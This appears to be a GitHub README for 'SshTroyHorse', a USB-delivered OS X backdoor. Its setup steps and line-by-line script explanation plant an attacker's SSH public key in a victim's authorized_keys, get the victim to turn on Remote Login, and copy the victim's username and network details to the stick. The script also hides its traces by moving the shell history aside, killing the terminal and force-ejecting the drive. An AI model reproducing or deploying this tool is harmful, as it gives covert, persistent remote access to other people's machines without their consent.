 SshTroyHorse (OS X)
============

### What do we need?
    * A USB stick
    * A computer running OS X (We call this victim)
    * A computer running linux or OS X (We call this Gabriele)
    * Gabriele's public key (we assume we can find it in ~/.ssh/id_rsa.pub)

### How to setup?
    1. Download the .zip file and uncompress it.
    2. Copy the 2 bash script in the USB script.
    3. Run build.sh.
    4. Eject the USB stick and plug it in victim's computer.
    5. From victim's computer, run script.sh
    6. Put a tick in "Remote Login" when the sharing preferences page displays.
    7. script.sh should have finished its work yet, you can unplug it.
    8. open a terminal in Gabriele's computer and execute "ssh " + last username in "whoamis.txt" + "@" last hostname in "hostnames.txt"
    9. You should be able to login to victim's computer.

### How does it works?

`#! /bin/sh`
Declares a bash script.

`mv ~/.bash_history /Volumes/keyInstaller/` momentarily copies the bash history in **/Volumes/keyInstaller/**, so that the victim won't notice anything
`open /System/Library/PreferencePanes/SharingPref.prefPane/` opens the sharing preferences page.

`cat /Volumes/keyInstaller/id_rsa.pub >> ~/.ssh/authorized_keys` copies your public key in the target authorized keys.

`chmod 600 ~/.ssh/authorized_keys` gives right permissions to the public key.

`whoami >> /Volumes/keyInstaller/whoamis.txt` saves the active username in **whoamis.txt**

`echo "----------------------------" >> /Volumes/keyInstaller/hostnames.txt` separes different attacks in **hostnames.txt**

`ifconfig >> /Volumes/keyInstaller/hostnames.txt` sends to **hostnames.txt** network informations about victim's computer

`toeject=$(df -h | grep /Volumes/keyInstaller) && toeject=${toeject:0:12}` **toeject** contains the string with the name of the device.

`mv /Volumes/keyInstaller/.bash_history ~/` restores the **.bash_profile** in the victim's home

`clear` clears the terminal

`kill -9 $(ps -p $(ps -p $PPID -o ppid=) -o ppid=)` kills the terminal itself

`diskutil unmount $toeject` unmounts the drive to eject

`diskutil unmountDisk force $toeject`: if the drive was not ejected, try forcing this.
